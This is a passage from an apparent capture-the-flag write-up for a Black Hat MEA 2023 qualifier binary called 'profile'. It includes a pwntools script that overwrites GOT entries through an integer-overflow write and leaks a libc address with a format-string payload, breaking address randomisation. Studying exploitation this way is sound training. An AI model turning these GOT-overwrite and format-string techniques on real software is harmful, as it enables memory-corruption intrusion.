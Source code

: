 Now, we can see that `0x7face7104a37` belongs to libc and is found at offset `3`. Let's see in GDB, where this address is mapped to

![Alt text](/static/writeups/blackhatmea23-quals/image-10.png)

Now, the base of libc is:

![Alt text](/static/writeups/blackhatmea23-quals/image-11.png)

i.e.

```py
p/x 0x7face7104a37-0x7face6ff0000
```

![Alt text](/static/writeups/blackhatmea23-quals/image-12.png)

Now, at each run, the base of libc will `0x114a37` away from the leaked address. So, we can simply subtract the leaked address with `0x114a37` to get the base of libc. Our updated exploit becomes:

```python
#!/usr/bin/env python3

from pwn import *
import re

def overflow(addr: int):
	return str((addr << 32) + 1).encode()

context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary = ELF("./profile")
libc = elf.libc
io = process()

log.info("Overwriting free(%#x) with main(%#x)" % (elf.got.free, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting exit(%#x) with main(%#x)" % (elf.got.exit, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.exit))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting free(%#x) with printf(%#x)" % (elf.got.free, elf.sym.printf))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.printf)[:3])

io.sendlineafter(b"Age: ", b"1")
io.sendlineafter(b"Name: ", b"HELLO|%3$p|")

data = io.recvuntil(b'|Age')
''' Getting only the address '''
leak = ''.join(re.findall("HELLO|(.*?)|Age", data.decode())).split('|')[-2]
leak = int(leak, 16)

libc.address = leak - 0x114a37
log.info("Libc base: %#x" % libc.address)

```
